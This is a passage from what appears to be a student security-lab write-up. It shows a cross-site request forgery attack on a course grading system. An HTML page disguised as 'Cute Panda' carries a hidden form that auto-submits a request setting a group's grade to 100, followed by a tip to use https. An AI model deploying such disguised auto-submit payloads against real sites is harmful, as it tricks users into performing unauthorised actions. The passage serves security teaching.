 ```html
<!DOCTYPE html>
<html>
  <head>
    <title>Cute Panda</title>
  </head>
  <body>
    <form method="POST" action="https://codered.cs.washington.edu/lab2/supersecuregradingsystem/?action=update-grade">
      <input type="hidden" name="groups" value="The_Great_Firewall">
      <input type="hidden" name="grade" value="100">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Go back and check the page, and we see:

![hack your 4.0](hack-grade-5.png)

**NOTE:** When constructing the auto-submit form, use `https` instead of `http`! Somehow, `http` would always fail.

## Final Completion
